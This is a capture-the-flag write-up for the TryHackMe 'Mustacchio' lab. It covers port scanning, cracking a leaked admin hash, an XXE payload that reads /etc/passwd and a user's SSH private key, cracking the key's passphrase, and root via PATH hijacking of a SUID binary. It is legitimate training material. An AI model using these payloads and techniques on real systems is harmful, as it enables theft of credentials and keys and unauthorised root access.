 # [Mustacchio](https://tryhackme.com/room/mustacchio)

First as always, `nmap`

```
# Nmap 7.91 scan initiated Sat Jul 24 06:27:37 2021 as: nmap -vvv -p 22,80,8765 -sCV -oN nmap 10.10.137.9
Nmap scan report for box.ip (10.10.137.9)
Host is up, received syn-ack (0.23s latency).
Scanned at 2021-07-24 06:27:38 UTC for 46s

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2WTNk2XxeSH8TaknfbKriHmaAOjRnNrbq1/zkFU46DlQRZmmrUP0uXzX6o6mfrAoB5BgoFmQQMackU8IWRHxF9YABxn0vKGhCkTLquVvGtRNJjR8u3BUdJ/wW/HFBIQKfYcM+9agllshikS1j2wn28SeovZJ807kc49MVmCx3m1OyL3sJhouWCy8IKYL38LzOyRd8GEEuj6QiC+y3WCX2Zu7lKxC2AQ7lgHPBtxpAgKY+txdCCEN1bfemgZqQvWBhAQ1qRyZ1H+jr0bs3eCjTuybZTsa8aAJHV9JAWWEYFegsdFPL7n4FRMNz5Qg0BVK2HGIDre343MutQXalAx5P
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCEPDv6sOBVGEIgy/qtZRm+nk+qjGEiWPaK/TF3QBS4iLniYOJpvIGWagvcnvUvODJ0ToNWNb+rfx6FnpNPyOA0=
|   256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGldKE9PtIBaggRavyOW10GTbDFCLUZrB14DN4/2VgyL
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    syn-ack nginx 1.10.3 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 24 06:28:24 2021 -- 1 IP address (1 host up) scanned in 47.12 seconds
```

Port 80 is a site with nothing special off the bat, while port 8765 is a login page. We don't have credentials for the login so let's dir-bust the page on port 80.

```sh
$ gobuster dir -u http://box.ip/ -w /path/to/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt

/images               (Status: 200) [Size: 6161]
/custom               (Status: 200) [Size: 1109]
/fonts                (Status: 200) [Size: 1137]
```

Going into `/custom` and manually going to `/custom/js`, we find `users.bak` so let's download it.

```sh
$ file users.bak
users.bak: SQLite 3.x database, last written using SQLite version 3034001
```

The file is a SQLite database so we'll open it with `sqlite3`. Inside it, we can look around for tables of interest and dump them.

```sqlite3
sqlite> .tables
users

sqlite> .dump users
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users(username text NOT NULL, password text NOT NULL);
INSERT INTO users VALUES('admin','1868e36a6d2b17d4c2745f1659433a54d4bc5f4b');
COMMIT;
```

We found the user "admin" and their password hash.

```sh
$ hashid 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b -j
Analyzing '1868e36a6d2b17d4c2745f1659433a54d4bc5f4b'
[+] SHA-1 [JtR Format: raw-sha1]
[+] Double SHA-1
[+] RIPEMD-160 [JtR Format: ripemd-160]
[+] Haval-160
[+] Tiger-160
[+] HAS-160
[+] LinkedIn [JtR Format: raw-sha1-linkedin]
[+] Skein-256(160)
[+] Skein-512(160)

```

It looks like a SHA1 hash. You can crack it with john, hashcat, or [crackstation](https://crackstation.net/) to get the password.

With the password cracked, we can log into the service on port 8765. Looking at the page's source code, we see an interesting comment.

![](comment-barry.png)

> Barry, you can now SSH in using your key!

Looks like we'll have to look for Barry's SSH key.

Here we can only post comments, so let's put it through Burp and see what's going on.

![](request.png)

We seem to be `POST`ing XML data, so let's test for XXE (eXternal XML Entity) vulnerabilities. Looking at the response, we see and interesting comment.

![](comment-response.png)

```js
document.cookie = "Example=/auth/dontforget.bak";
```

It seems there's a `dontforget.bak` file we can grab. Looking at the file, we see that a valid comment has the following format:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name></name>
  <author></author>
  <com></com>
</comment>
```

Knowing that, I crafted an XXE payload to exfiltrate `/etc/passwd` and put it in the comment box and pressed "Submit" and got the contents of `/etc/passwd`.

![](xxe-passwd.png)

After confirming XXE works, we exfiltrate Barry's SSH key - his `id_rsa` - with the following payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY name SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&name;</name>
  <author>author</author>
  <com>comments</com>
</comment>
```

![](xxe-id_rsa.png)
![](xxe-burp.png)

With that, we should be able to SSH into the box, right? Well no. The key is password-protected so we have to crack it.

```sh
$ ssh2john id_rsa > id_rsa.john
$ john --wordlist= id_rsa.john
```

With this, we should have an SSH shell on the machine.

Looking for SUID binaries, we find an interesting file: `/home/joe/live_log`

```sh
barry@mustacchio:~$ find / -perm -4000 2>/dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/home/joe/live_log
/bin/ping
/bin/ping6
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
```

Looking into the file ...

```sh
barry@mustacchio:~$ ls -l /home/joe/live_log
-rwsr-xr-x 1 root root 16832 Jun 12 15:48 /home/joe/live_log

barry@mustacchio:~$ file /home/joe/live_log
/home/joe/live_log: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6c03a68094c63347aeb02281a45518964ad12abe, for GNU/Linux 3.2.0, not stripped

barry@mustacchio:~$ strings /home/joe/live_log
[snip]
tail -f /var/log/nginx/access.log
```

... we see that it's a file running `tail` as root. Notice that it's running `tail` *without* a full/absolute path. With this, we can control and exploit the `$PATH` to make it run our own `tail` binary.


```sh
$ echo "/bin/bash -p" > tail
$ chmod +x tail
$ export PATH=".:$PATH"
$ /home/joe/live_log
```

With that, we should have a root shell.
